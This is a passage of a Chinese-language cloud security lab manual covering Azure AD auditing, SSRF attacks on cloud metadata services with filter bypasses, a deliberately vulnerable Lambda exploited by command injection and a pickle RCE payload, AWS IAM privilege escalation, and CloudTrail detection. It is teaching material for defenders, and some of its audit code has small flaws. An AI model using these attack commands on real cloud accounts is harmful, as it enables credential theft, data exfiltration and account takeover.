apps = json.load(sys.stdin)
for app in apps:
    perms = app.get('requiredResourceAccess', [])
    for perm in perms:
        for access in perm.get('resourceAccess', []):
            if access['id'] in {HIGH_RISK_PERMISSIONS.keys()}:
                print(f'[HIGH] {app[\"displayName\"]} ({app[\"appId\"]}) has {HIGH_RISK_PERMISSIONS[access[\"id\"]]} - Type: {access[\"type\"]}')
"
```

#### 步骤4：自动化安全报告生成

```python
#!/usr/bin/env python3
"""
azure_ad_security_report.py - Azure AD安全评估报告生成器
"""

import subprocess
import json
from datetime import datetime, timezone

def az_cmd(cmd):
    """执行Azure CLI命令并返回JSON结果"""
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)
    try:
        return json.loads(result.stdout) if result.stdout.strip() else []
    except json.JSONDecodeError:
        return []

def graph_api(endpoint):
    """调用Microsoft Graph API"""
    return az_cmd(f'az rest --method get --uri "https://graph.microsoft.com/v1.0/{endpoint}"')

def generate_report():
    findings = []

    # 收集数据
    users = az_cmd('az ad user list')
    apps = az_cmd('az ad app list')
    groups = az_cmd('az ad group list')
    sps = az_cmd('az ad sp list --all')
    roles = az_cmd('az role assignment list --all')

    # 检查1：全局管理员数量
    global_admins = [r for r in roles if r.get('roleDefinitionName') == 'Owner' or
                     'Global Administrator' in str(r.get('roleDefinitionName', ''))]
    if len(global_admins) > 4:
        findings.append({
            'severity': 'HIGH',
            'check': '全局管理员数量',
            'detail': f'存在{len(global_admins)}个全局管理员，建议限制在2-4个',
            'count': len(global_admins)
        })

    # 检查2：禁用的用户仍有角色
    disabled_users = [u for u in users if not u.get('accountEnabled')]
    for u in disabled_users:
        user_roles = [r for r in roles if r.get('principalName') == u.get('userPrincipalName')]
        if user_roles:
            findings.append({
                'severity': 'MEDIUM',
                'check': '禁用用户仍有角色',
                'detail': f'{u["displayName"]} 已禁用但仍有{len(user_roles)}个角色分配'
            })

    # 检查3：过期的应用凭据
    now = datetime.now(timezone.utc)
    for app in apps:
        for cred in app.get('passwordCredentials', []):
            exp = datetime.fromisoformat(cred['endDateTime'].replace('Z', '+00:00'))
            if exp < now:
                findings.append({
                    'severity': 'CRITICAL',
                    'check': '过期应用凭据',
                    'detail': f'{app["displayName"]}: 凭据已过期 {cred["keyId"][:8]}...'
                })

    # 检查4：拥有高危权限的应用
    high_risk = {
        "df021288-bdef-4463-88db-98f22de89214": "User.ReadWrite.All",
        "06b708a9-e830-4db3-a914-8e69da51d44f": "Application.ReadWrite.All",
        "1bfefb4e-e0b5-418b-a88f-73c46d2b8309": "Directory.ReadWrite.All",
    }
    for app in apps:
        for perm in app.get('requiredResourceAccess', []):
            for access in perm.get('resourceAccess', []):
                if access['id'] in high_risk:
                    findings.append({
                        'severity': 'HIGH',
                        'check': '过度授权应用',
                        'detail': f'{app["displayName"]} 拥有 {high_risk[access["id"]]} 权限（{access["type"]}）'
                    })

    # 输出报告
    report = {
        'generated': now.isoformat(),
        'summary': {
            'total_users': len(users),
            'disabled_users': len(disabled_users),
            'total_apps': len(apps),
            'total_groups': len(groups),
            'total_sps': len(sps),
            'total_role_assignments': len(roles),
        },
        'findings': sorted(findings, key=lambda x: {'CRITICAL': 0, 'HIGH': 1, 'MEDIUM': 2}.get(x['severity'], 9))
    }

    print(json.dumps(report, indent=2, ensure_ascii=False))

if __name__ == '__main__':
    generate_report()
```

### 练习成果

- 掌握Azure AD的安全评估全流程：枚举 → 审计 → 发现 → 报告
- 能够识别过度授权的应用和缺失MFA的用户
- 理解Azure AD安全加固要点：条件访问策略、PIM（Privileged Identity Management）、MFA强制

---

## 练习四：云元数据服务利用

### 练习目标

理解云元数据服务（AWS IMDS、GCP Metadata、Azure IMDS）的安全风险，掌握IMDSv1与IMDSv2的区别及绕过方法，学习通过SSRF漏洞获取云临时凭据的完整攻击链。

### 为什么这个练习重要

元数据服务是云环境中最被低估的攻击面。2019年Capital One数据泄露的根本原因就是通过SSRF访问IMDSv1获取了IAM角色的临时凭据。AWS后来推出IMDSv2（基于Token的访问）来缓解此问题，但大量实例仍在运行IMDSv1。

### 练习环境

- AWS EC2实例（t2.micro免费套餐）或AWSGoat靶场
- Python 3.x + Flask（用于构建SSRF漏洞应用）

### 练习步骤

#### 步骤1：IMDSv1直接访问

```bash
# 在EC2实例上执行
# 列举元数据顶级目录
curl -s http://169.254.169.254/latest/meta-data/ | head -20
# 返回：ami-id, hostname, instance-action, instance-id, instance-type等

# 获取实例身份信息
curl -s http://169.254.169.254/latest/meta-data/instance-id
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/
# 返回IAM角色名称

# 获取临时凭据（AccessKeyId, SecretAccessKey, Token）
ROLE=$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE
# 返回完整的临时凭据JSON

# 获取用户数据（可能包含敏感信息如API密钥、数据库密码）
curl -s http://169.254.169.254/latest/user-data
# Base64解码
curl -s http://169.254.169.254/latest/user-data | base64 -d

# 获取网络信息
curl -s http://169.254.169.254/latest/meta-data/network/interfaces/macs/
```

#### 步骤2：IMDSv2利用

```bash
# IMDSv2需要先获取Token，再用Token访问
# 步骤2a：获取Token（PUT请求，必须指定TTL）
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

echo "Token: ${TOKEN:0:20}..."

# 步骤2b：使用Token访问元数据
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/

# 获取IAM凭据
ROLE=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE
```

#### 步骤3：通过SSRF利用元数据服务

部署一个有SSRF漏洞的应用：

```python
#!/usr/bin/env python3
"""
vulnerable_app.py - 包含SSRF漏洞的Flask应用（仅供安全练习使用）
"""

from flask import Flask, request, jsonify
import requests
import socket
import urllib.parse

app = Flask(__name__)

# 漏洞：未校验URL目标地址
@app.route('/fetch')
def fetch_url():
    url = request.args.get('url', '')
    if not url:
        return jsonify({'error': 'Missing url parameter'}), 400
    try:
        resp = requests.get(url, timeout=5)
        return resp.text
    except Exception as e:
        return jsonify({'error': str(e)}), 500

# 漏洞：DNS重绑定可以绕过校验
@app.route('/fetch_with_check')
def fetch_with_check():
    url = request.args.get('url', '')
    if not url:
        return jsonify({'error': 'Missing url parameter'}), 400
    # 有缺陷的校验：只检查URL字符串，不检查DNS解析结果
    parsed = urllib.parse.urlparse(url)
    hostname = parsed.hostname
    if hostname in ('169.254.169.254', 'metadata.google.internal', '169.254.169.254'):
        return jsonify({'error': 'Access to metadata service blocked'}), 403
    try:
        resp = requests.get(url, timeout=5)
        return resp.text
    except Exception as e:
        return jsonify({'error': str(e)}), 500

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

通过SSRF访问元数据（攻击者视角）：

```bash
# 启动漏洞应用
python3 vulnerable_app.py &

# === 基础SSRF：无校验版本 ===
# 获取元数据目录
curl "http://target:5000/fetch?url=http://169.254.169.254/latest/meta-data/"

# 获取IAM角色名
curl "http://target:5000/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# 获取临时凭据
ROLE=$(curl -s "http://target:5000/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/" | tr -d '"')
curl "http://target:5000/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE"

# 获取用户数据
curl "http://target:5000/fetch?url=http://169.254.169.254/latest/user-data" | base64 -d

# === 绕过简单黑名单校验 ===
# 方法1：十六进制IP
curl "http://target:5000/fetch_with_check?url=http://0xa9fea9fe/latest/meta-data/"

# 方法2：八进制IP
curl "http://target:5000/fetch_with_check?url=http://0251.0376.0251.0376/latest/meta-data/"

# 方法3：DNS重绑定（需要配合rbndr.us等服务）
# 先让域名解析到正常IP通过检查，再解析到169.254.169.254

# 方法4：URL编码绕过
curl "http://target:5000/fetch_with_check?url=http://169%2e254%2e169%2e254/latest/meta-data/"
```

#### 步骤4：利用获取的凭据

```bash
# 配置获取的临时凭据
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...

# 验证身份
aws sts get-caller-identity
# 返回：Account, Arn, UserId — 确认身份和角色

# 探索角色权限
aws s3 ls
aws ec2 describe-instances
aws iam list-roles

# 如果角色有S3写权限，尝试数据外泄
aws s3 sync s3://sensitive-bucket ./loot/
```

#### 步骤5：防御验证

```bash
# 在EC2实例上验证IMDSv2强制模式
aws ec2 describe-instances --instance-ids i-xxx \
  --query 'Reservations[].Instances[].MetadataOptions.HttpTokens'
# 返回"required"表示已强制IMDSv2

# 启用IMDSv2强制模式
aws ec2 modify-instance-metadata-options \
  --instance-id i-xxx \
  --http-tokens required \
  --http-endpoint enabled \
  --http-put-response-hop-limit 1
# hop-limit=1确保只有实例本身（非容器内进程）能获取Token
```

### 三大云平台元数据服务对比

| 特性 | AWS IMDS | GCP Metadata | Azure IMDS |
|:---|:---|:---|:---|
| 端点 | 169.254.169.254 | metadata.google.internal (169.254.169.254) | 169.254.169.254 |
| 认证方式 | v1无认证/v2需Token | 需Header `Metadata-Flavor: Google` | 无（但需`Metadata: true` Header） |
| 凭据获取路径 | /latest/meta-data/iam/security-credentials/ | /computeMetadata/v1/instance/service-accounts/default/token | /metadata/identity/oauth2/token |
| SSRF防护 | IMDSv2 Token + Hop Limit | Header要求 | Header要求 |

### 练习成果

- 理解三大云平台元数据服务的工作原理和安全差异
- 掌握IMDSv1/v2的利用方法及IMDSv2的绕过思路
- 学会构建SSRF防护的正确方式：URL白名单 + DNS解析校验 + 网络层阻断

---

## 练习五：使用Prowler进行AWS安全评估

### 练习目标

学习使用Prowler这一开源AWS安全评估工具，理解其检查逻辑，掌握结果解读和修复流程。

### 练习环境

- AWS账户（免费或付费）
- Python 3.9+环境

### 练习步骤

#### 步骤1：安装Prowler

```bash
# 推荐pip安装
pip install prowler

# 验证安装
prowler --version
```

#### 步骤2：运行安全评估

```bash
# 运行所有检查（覆盖300+项CIS Benchmark检查）
prowler aws

# 只运行特定检查类别
prowler aws --categories s3 ec2 iam

# 运行特定检查（如只检查S3公开访问）
prowler aws --checks s3_bucket_public_access

# 按严重级别过滤
prowler aws --severity critical high

# 生成多种格式报告
prowler aws -M json,csv,html

# 针对特定服务扫描
prowler aws --services s3 ec2 iam rds
```

#### 步骤3：分析扫描结果

```bash
# 查看JSON报告统计
cat prowler-output-*.json | python3 -c "
import json, sys
from collections import Counter
data = json.load(sys.stdin)
statuses = Counter(item.get('status') for item in data)
severities = Counter(item.get('severity') for item in data if item.get('status') == 'FAIL')
print('=== Status Summary ===')
for s, c in statuses.most_common():
    print(f'  {s}: {c}')
print('=== Failed by Severity ===')
for s, c in severities.most_common():
    print(f'  {s}: {c}')
"

# 列出所有CRITICAL级别的失败项
cat prowler-output-*.json | python3 -c "
import json, sys
data = json.load(sys.stdin)
for item in data:
    if item.get('status') == 'FAIL' and item.get('severity') == 'critical':
        print(f'[CRITICAL] {item[\"check_id\"]}: {item[\"check_title\"]}')
        print(f'  Resource: {item.get(\"resource_id\")}')
        print(f'  Region: {item.get(\"region\")}')
        print()
"
```

#### 步骤4：修复常见发现

```bash
# 修复示例1：为IAM用户启用MFA
aws iam create-virtual-mfa-device \
  --virtual-mfa-device-name admin-mfa \
  --outfile /tmp/mfa-qr.png \
  --bootstrap-method QRCodePNG

# 修复示例2：启用CloudTrail
aws cloudtrail create-trail \
  --name security-trail \
  --s3-bucket-name cloudtrail-logs-$(aws sts get-caller-identity --query Account --output text) \
  --is-multi-region-trail

aws cloudtrail start-logging --name security-trail

# 修复示例3：限制安全组入站规则
# 找到开放0.0.0.0/0的SSH规则
aws ec2 describe-security-groups \
  --query 'SecurityGroups[?IpPermissions[?IpRanges[?CidrIp==`0.0.0.0/0` && FromPort==`22`]]]' \
  --output json

# 替换为限制IP
aws ec2 revoke-security-group-ingress \
  --group-id sg-xxx --protocol tcp --port 22 --cidr 0.0.0.0/0
aws ec2 authorize-security-group-ingress \
  --group-id sg-xxx --protocol tcp --port 22 --cidr YOUR_IP/32

# 修复后重新扫描验证
prowler aws --checks s3_bucket_public_access iam_user_mfa_enabled cloudtrail_enabled
```

### 其他推荐扫描工具对比

| 工具 | 平台 | 特点 | 适用场景 |
|:---|:---|:---|:---|
| Prowler | AWS/Azure/GCP | 300+检查项，CIS Benchmark对齐 | 全面安全审计 |
| ScoutSuite | AWS/Azure/GCP/阿里云 | 多云支持，Web报告 | 多云环境 |
| Steampipe | AWS/Azure/GCP/50+平台 | SQL查询云资源 | 自定义合规查询 |
| CloudSploit | AWS/Azure/GCP | SaaS平台，持续监控 | 持续合规 |
| Checkov | IaC（Terraform/K8s） | 扫描基础设施代码 | CI/CD集成 |
| kube-bench | Kubernetes | CIS K8s Benchmark | K8s合规检查 |

### 练习成果

- 掌握Prowler的安装、配置和高级用法
- 能够解读扫描报告并按优先级修复问题
- 了解云安全评估工具生态

---

## 练习六：GCP安全评估实战

### 练习目标

学习Google Cloud Platform的安全评估方法，涵盖IAM策略审计、Service Account密钥泄露检测、GCS存储桶安全检查、VPC网络配置审计。

### 练习环境

- GCP免费账户（$300试用额度）
- gcloud CLI已配置
- Python 3.x + google-cloud-iam库

### 练习步骤

#### 步骤1：GCP IAM枚举与审计

```bash
# 设置项目
export PROJECT_ID=$(gcloud config get-value project)

# 列出所有IAM策略绑定
gcloud projects get-iam-policy $PROJECT_ID --format=json | \
  jq '.bindings[] | select(.role | contains("owner") or contains("editor")) | {role, members}'

# 查找拥有Owner角色的用户（应极其有限）
gcloud projects get-iam-policy $PROJECT_ID --format=json | \
  jq -r '.bindings[] | select(.role=="roles/owner") | .members[]'

# 列出所有Service Account
gcloud iam service-accounts list --format='table(email,displayName,disabled)'

# 列出每个Service Account的密钥（检测泄露风险）
for sa in $(gcloud iam service-accounts list --format='value(email)'); do
  echo "=== $sa ==="
  gcloud iam service-accounts keys list --iam-account=$sa --format='table(KEY_ID,CREATED_AT,EXPIRES_AT,KEY_TYPE)'
  # KEY_TYPE=USER_MANAGED的密钥是潜在泄露风险
done

# 列出所有自定义角色
gcloud iam roles list --project=$PROJECT_ID --format='table(name,title,stage,deleted)'
```

#### 步骤2：GCS存储桶安全评估

```bash
# 列出所有存储桶
gsutil ls -p $PROJECT_ID

# 检查公开访问的桶
for bucket in $(gsutil ls -p $PROJECT_ID); do
  acl=$(gsutil iam get $bucket 2>/dev/null)
  if echo "$acl" | grep -q "allUsers\|allAuthenticatedUsers"; then
    echo "[CRITICAL] $bucket is publicly accessible"
    echo "$acl" | jq '.bindings[] | select(.members[] | contains("allUsers"))'
  fi
done

# 检查桶的Uniform Bucket Level Access（应启用）
for bucket in $(gsutil ls -p $PROJECT_ID); do
  uniform=$(gsutil bucketpolicyonly get $bucket 2>/dev/null)
  if echo "$uniform" | grep -q "Enabled: False"; then
    echo "[MEDIUM] $bucket: Uniform bucket access not enabled"
  fi
done

# 检查版本控制
for bucket in $(gsutil ls -p $PROJECT_ID); do
  versioning=$(gsutil versioning get $bucket)
  if echo "$versioning" | grep -q "Suspended\|None"; then
    echo "[MEDIUM] $bucket: Versioning not enabled"
  fi
done

# 检查日志记录
for bucket in $(gsutil ls -p $PROJECT_ID); do
  logging=$(gsutil logging get $bucket 2>/dev/null)
  if [ -z "$logging" ] || echo "$logging" | grep -q "None"; then
    echo "[MEDIUM] $bucket: Access logging not configured"
  fi
done
```

#### 步骤3：Service Account密钥泄露检测

```python
#!/usr/bin/env python3
"""
gcp_sa_key_audit.py - GCP Service Account密钥审计
检测泄露到代码仓库、日志、环境变量中的SA密钥
"""

import subprocess
import json
import re
from datetime import datetime, timezone

def get_sa_keys(project_id):
    """获取所有SA密钥及其最后使用时间"""
    keys = []
    result = subprocess.run(
        f'gcloud iam service-accounts list --project={project_id} --format=json',
        shell=True, capture_output=True, text=True
    )
    accounts = json.loads(result.stdout)

    for sa in accounts:
        email = sa['email']
        result = subprocess.run(
            f'gcloud iam service-accounts keys list --iam-account={email} --format=json',
            shell=True, capture_output=True, text=True
        )
        for key in json.loads(result.stdout):
            keys.append({
                'account': email,
                'key_id': key['name'].split('/')[-1],
                'created': key.get('validAfterTime'),
                'expires': key.get('validBeforeTime'),
                'type': key.get('keyType', 'SYSTEM_MANAGED'),
                'disabled': sa.get('disabled', False)
            })
    return keys

def check_key_age(keys, max_days=90):
    """检查密钥年龄"""
    findings = []
    now = datetime.now(timezone.utc)
    for key in keys:
        if key['type'] != 'USER_MANAGED':
            continue
        created = datetime.fromisoformat(key['created'].replace('Z', '+00:00'))
        age = (now - created).days
        if age > max_days:
            findings.append({
                'severity': 'HIGH',
                'check': 'SA密钥过期',
                'detail': f'{key["account"]}: 密钥{key["key_id"][:8]}...已存在{age}天（超过{max_days}天上限）',
                'remediation': '轮换密钥或改用Workload Identity Federation'
            })
    return findings

def check_unused_keys(keys):
    """检查从未使用的密钥"""
    findings = []
    for key in keys:
        if key['type'] != 'USER_MANAGED':
            continue
        # 通过Cloud Asset API检查最后认证时间
        result = subprocess.run(
            f'gcloud iam service-accounts keys list --iam-account={key["account"]} --filter="keyId={key["key_id"]}" --format=json',
            shell=True, capture_output=True, text=True
        )
        # 简化：如果创建超过30天且从未使用，告警
        findings.append({
            'severity': 'MEDIUM',
            'check': 'SA密钥管理',
            'detail': f'{key["account"]}: 密钥{key["key_id"][:8]}... 类型={key["type"]}'
        })
    return findings

if __name__ == '__main__':
    import sys
    project = sys.argv[1] if len(sys.argv) > 1 else subprocess.run(
        'gcloud config get-value project', shell=True, capture_output=True, text=True
    ).stdout.strip()

    print(f'[*] Auditing project: {project}')
    keys = get_sa_keys(project)
    print(f'[*] Found {len(keys)} SA keys')

    findings = check_key_age(keys)
    findings.extend(check_unused_keys(keys))

    for f in findings:
        print(f'[{f["severity"]}] {f["check"]}: {f["detail"]}')
        if 'remediation' in f:
            print(f'  Fix: {f["remediation"]}')
```

#### 步骤4：VPC网络安全审计

```bash
# 检查默认VPC的防火墙规则（通常过于宽松）
gcloud compute firewall-rules list --format='table(name,network,direction,sourceRanges.list():label=SRC,allowed[].map().firewall_rule().list():label=RULE,disabled)'

# 找出允许0.0.0.0/0入站的规则
gcloud compute firewall-rules list --filter="sourceRanges:0.0.0.0/0 AND direction=INGRESS" \
  --format='table(name,allowed[].map().firewall_rule(),disabled)'

# 检查是否有开放所有端口的规则
gcloud compute firewall-rules list --format=json | \
  jq -r '.[] | select(.sourceRanges[]? == "0.0.0.0/0") | select(.allowed[]?.IPProtocol == "all") | .name'

# 检查IP转发是否启用（安全风险）
gcloud compute instances list --format='table(name,canIpForward,status)' | grep -v "canIpForward: False"
```

### 练习成果

- 掌握GCP IAM策略审计和Service Account密钥管理
- 能够评估GCS存储桶和VPC防火墙的安全配置
- 理解GCP特有的安全最佳实践：Workload Identity Federation、Organization Policy、VPC Service Controls

---

## 练习七：Serverless安全攻防

### 练习目标

学习AWS Lambda和GCP Cloud Functions的安全风险，掌握事件注入、权限过度配置、依赖链攻击等Serverless特有攻击向量。

### 练习环境

- AWS账户（Lambda在免费套餐内）
- AWS SAM CLI或Serverless Framework
- Python 3.x

### 练习步骤

#### 步骤1：部署有漏洞的Lambda函数

```python
# template.yaml - SAM模板
"""
AWSTemplateFormatVersion: '2010-09-09'
Transform: AWS::Serverless-2016-10-31
Resources:
  VulnerableFunction:
    Type: AWS::Serverless::Function
    Properties:
      Handler: app.handler
      Runtime: python3.12
      Timeout: 30
      Policies:
        - AdministratorAccess  # 故意过度授权
      Environment:
        Variables:
          DB_PASSWORD: "SuperSecret123!"  # 环境变量中的硬编码密钥
          API_KEY: "sk-1234567890abcdef"
"""
```

```python
# app.py - 包含多个漏洞的Lambda函数
import json
import os
import subprocess
import pickle
import base64

def handler(event, context):
    # 漏洞1：命令注入
    if 'filename' in event:
        result = subprocess.run(
            f"ls -la {event['filename']}",  # 直接拼接用户输入
            shell=True, capture_output=True, text=True
        )
        return {'body': result.stdout}

    # 漏洞2：不安全的反序列化
    if 'data' in event:
        obj = pickle.loads(base64.b64decode(event['data']))
        return {'body': str(obj)}

    # 漏洞3：环境变量泄露
    if event.get('action') == 'debug':
        return {'body': json.dumps(dict(os.environ))}

    return {'body': 'Hello'}
```

#### 步骤2：攻击有漏洞的Lambda

```bash
# 部署
sam build && sam deploy --guided

# 攻击1：命令注入获取环境变量
aws lambda invoke --function-name VulnerableFunction \
  --payload '{"filename": "test.txt; env"}' output.json
cat output.json | jq -r '.body'
# 输出包含DB_PASSWORD和API_KEY

# 攻击2：通过debug动作泄露全部环境变量
aws lambda invoke --function-name VulnerableFunction \
  --payload '{"action": "debug"}' output.json
cat output.json | jq -r '.body' | jq .
# 返回所有环境变量，包括敏感凭据

# 攻击3：利用过度授权的IAM角色
# Lambda的执行角色有AdministratorAccess，可以做任何事
aws lambda invoke --function-name VulnerableFunction \
  --payload '{"filename": "x; aws s3 ls"}' output.json

# 攻击4：反序列化RCE
python3 -c "
import pickle, base64, os
class Exploit:
    def __reduce__(self):
        return (os.system, ('cat /etc/passwd > /tmp/pwned',))
payload = base64.b64encode(pickle.dumps(Exploit())).decode()
print(payload)
" | xargs -I{} aws lambda invoke --function-name VulnerableFunction \
  --payload '{"data": "{}"}' output.json
```

#### 步骤3：Serverless安全加固

```yaml
# 修复后的template.yaml
AWSTemplateFormatVersion: '2010-09-09'
Transform: AWS::Serverless-2016-10-31
Resources:
  SecureFunction:
    Type: AWS::Serverless::Function
    Properties:
      Handler: app.handler
      Runtime: python3.12
      Timeout: 10
      # 最小权限原则：只授予必要的权限
      Policies:
        - S3ReadPolicy:
            BucketName: my-data-bucket
      Environment:
        Variables:
          # 使用Secrets Manager替代硬编码
          DB_SECRET_ARN: !Ref DatabaseSecret
      # 启用X-Ray追踪
      Tracing: Active
      # 配置VPC（如果需要访问私有资源）
      # VpcConfig:
      #   SecurityGroupIds: [sg-xxx]
      #   SubnetIds: [subnet-xxx]

  DatabaseSecret:
    Type: AWS::SecretsManager::Secret
    Properties:
      Name: lambda-db-credentials
      GenerateSecretString:
        SecretStringTemplate: '{"username": "admin"}'
        GenerateStringKey: password
        PasswordLength: 32
```

### 练习成果

- 理解Serverless架构的特有攻击面：事件注入、过度授权、冷启动、依赖链
- 掌握Lambda函数的安全编码实践
- 学会使用AWS SAM进行安全的Serverless开发

---

## 练习八：跨云IAM权限提升

### 练习目标

学习云环境中IAM权限提升的技术，涵盖AWS AssumeRole链、Azure Managed Identity利用、GCP Service Account模拟等高级攻击路径。

### 练习环境

- AWS账户（创建测试IAM角色和策略）
- 或使用CloudGoat靶场（`pip install cloudgoat`）

### 练习步骤

#### 步骤1：使用CloudGoat搭建靶场

```bash
# 安装CloudGoat
pip install cloudgoat

# 配置AWS凭证
export AWS_ACCESS_KEY_ID=...
export AWS_SECRET_ACCESS_KEY=...
export AWS_DEFAULT_REGION=us-east-1

# 配置IP白名单
export TF_VAR_whitelist='["YOUR_IP/32"]'

# 部署IAM提权场景
cloudgoat create iam_privesc_by_rollback
```

#### 步骤2：AWS IAM权限提升技术

```bash
# === 技术1：IAM策略版本回滚 ===
# 前提：拥有iam:CreatePolicyVersion和iam:SetDefaultPolicyVersion权限

# 列出目标策略的所有版本
aws iam list-policy-versions --policy-arn arn:aws:iam::ACCOUNT:policy/POLICY_NAME

# 创建一个新版本，授予完全权限
cat > /tmp/admin-policy.json << 'EOF'
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
EOF

aws iam create-policy-version \
  --policy-arn arn:aws:iam::ACCOUNT:policy/POLICY_NAME \
  --policy-document file:///tmp/admin-policy.json \
  --set-as-default

# === 技术2：创建Access Key ===
# 前提：拥有iam:CreateAccessKey权限
aws iam create-access-key --user-name TARGET_USER

# === 技术3：AssumeRole链 ===
# 从一个角色假设到另一个更高权限的角色
aws sts assume-role \
  --role-arn arn:aws:iam::TARGET_ACCOUNT:role/HighPrivilegeRole \
  --role-session-name privesc-session

# 使用临时凭据
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...

# === 技术4：Lambda函数提权 ===
# 如果有lambda:CreateFunction和iam:PassRole权限
aws lambda create-function \
  --function-name privesc-lambda \
  --runtime python3.12 \
  --role arn:aws:iam::ACCOUNT:role/AdminRole \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://privesc.zip

# Lambda代码在AdminRole上下文中执行任意AWS API调用
```

#### 步骤3：跨账户提权检测

```python
#!/usr/bin/env python3
"""
aws_cross_account_audit.py - AWS跨账户信任策略审计
检测可能导致权限提升的跨账户信任关系
"""

import boto3
import json

iam = boto3.client('iam')

def audit_trust_policies():
    """审计所有IAM角色的信任策略"""
    findings = []
    roles = iam.list_roles()['Roles']

    for role in roles:
        policy = role['AssumeRolePolicyDocument']
        for stmt in policy.get('Statement', []):
            principal = stmt.get('Principal', {})
            aws_principal = principal.get('AWS', [])
            if isinstance(aws_principal, str):
                aws_principal = [aws_principal]

            for p in aws_principal:
                # 检查跨账户信任
                if ':root' in p:
                    findings.append({
                        'severity': 'HIGH',
                        'role': role['RoleName'],
                        'issue': f'信任整个AWS账户: {p}',
                        'detail': '账户root拥有所有权限，应限制到特定角色'
                    })

                # 检查通配符信任
                if p == '*':
                    findings.append({
                        'severity': 'CRITICAL',
                        'role': role['RoleName'],
                        'issue': '信任所有人（Principal: *）',
                        'detail': '任何人都可以AssumeRole此角色'
                    })

            # 检查条件约束
            conditions = stmt.get('Condition', {})
            if not conditions and principal == '*':
                findings[-1]['detail'] += ' (无条件约束)'

    return findings

if __name__ == '__main__':
    findings = audit_trust_policies()
    for f in sorted(findings, key=lambda x: {'CRITICAL': 0, 'HIGH': 1, 'MEDIUM': 2}.get(x['severity'], 9)):
        print(f'[{f["severity"]}] {f["role"]}: {f["issue"]}')
        print(f'  {f["detail"]}')
```

### 练习成果

- 理解AWS IAM权限提升的多种路径
- 掌握AssumeRole信任策略的安全审计方法
- 学会防御IAM提权：最小权限、条件约束、权限边界

---

## 练习九：云取证与威胁检测

### 练习目标

学习云环境中的安全事件检测、日志分析和取证调查方法，涵盖CloudTrail分析、GuardDuty告警解读、Azure Sentinel查询、GCP Cloud Audit Logs分析。

### 练习环境

- AWS账户（启用CloudTrail和GuardDuty）
- 或使用Security Monkey / Prowler的检测模块

### 练习步骤

#### 步骤1：CloudTrail日志分析

```bash
# 启用CloudTrail（如果未启用）
aws cloudtrail create-trail \
  --name security-audit-trail \
  --s3-bucket-name cloudtrail-logs-$(aws sts get-caller-identity --query Account --output text) \
  --is-multi-region-trail \
  --enable-log-file-validation

aws cloudtrail start-logging --name security-audit-trail

# 查询CloudTrail日志中的高危事件
aws logs filter-log-events \
  --log-group-name "CloudTrail/SecurityAudit" \
  --start-time $(date -d '24 hours ago' +%s)000 \
  --filter-pattern '{ ($.eventName = "ConsoleLogin") || ($.eventName = "CreateAccessKey") || ($.eventName = "CreateUser") || ($.eventName = "AttachUserPolicy") || ($.eventName = "PutBucketPolicy") }' \
  --query 'events[].{time:timestamp, event:eventName, user:userIdentity.arn, source:eventSource, ip:sourceIPAddress}' \
  --output table

# 检测异常登录模式
aws logs filter-log-events \
  --log-group-name "CloudTrail/SecurityAudit" \
  --filter-pattern '{ $.eventName = "ConsoleLogin" && $.errorMessage = "Failed authentication" }' \
  --query 'events[].{time:timestamp, user:userIdentity.userName, ip:sourceIPAddress}' \
  --output table
```

#### 步骤2：模拟攻击并检测

```bash
# === 模拟1：异常时间登录 ===
# 在凌晨3点模拟登录（概念演示）

# === 模拟2：敏感操作序列 ===
# 创建IAM用户 → 创建Access Key → 附加管理员策略
aws iam create-user --user-name temp-test-user
aws iam create-access-key --user-name temp-test-user
aws iam attach-user-policy \
  --user-name temp-test-user \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# === 模拟3：数据外泄 ===
# 批量下载S3对象
aws s3 sync s3://sensitive-bucket ./exfil/

# === 检测这些操作 ===
# 在CloudTrail中查找这些事件
aws logs filter-log-events \
  --log-group-name "CloudTrail/SecurityAudit" \
  --filter-pattern '{ ($.eventName = "CreateUser") || ($.eventName = "CreateAccessKey") || ($.eventName = "AttachUserPolicy") || ($.eventName = "GetObject" && $.requestParameters.bucketName = "sensitive-bucket") }'
```

#### 步骤3：自动化检测脚本

```python
#!/usr/bin/env python3
"""
cloud_threat_detector.py - 云安全威胁检测器
基于CloudTrail日志的实时威胁检测
"""

import boto3
import json
from datetime import datetime, timedelta

class CloudThreatDetector:
    # 高危事件规则
    HIGH_RISK_EVENTS = {
        'ConsoleLogin': {'alert_on': 'Failed', 'severity': 'HIGH'},
        'CreateUser': {'alert_on': 'success', 'severity': 'MEDIUM'},
        'DeleteUser': {'alert_on': 'success', 'severity': 'MEDIUM'},
        'CreateAccessKey': {'alert_on': 'success', 'severity': 'HIGH'},
        'AttachUserPolicy': {'alert_on': 'success', 'severity': 'HIGH'},
        'PutBucketPolicy': {'alert_on': 'success', 'severity': 'CRITICAL'},
        'StopLogging': {'alert_on': 'success', 'severity': 'CRITICAL'},
        'DeleteTrail': {'alert_on': 'success', 'severity': 'CRITICAL'},
        'ConsoleLogin': {'alert_on': 'Failed', 'severity': 'HIGH'},
        'AssumeRole': {'alert_on': 'cross-account', 'severity': 'HIGH'},
    }

    def __init__(self, log_group, region='us-east-1'):
        self.client = boto3.client('logs', region_name=region)
        self.log_group = log_group
        self.findings = []

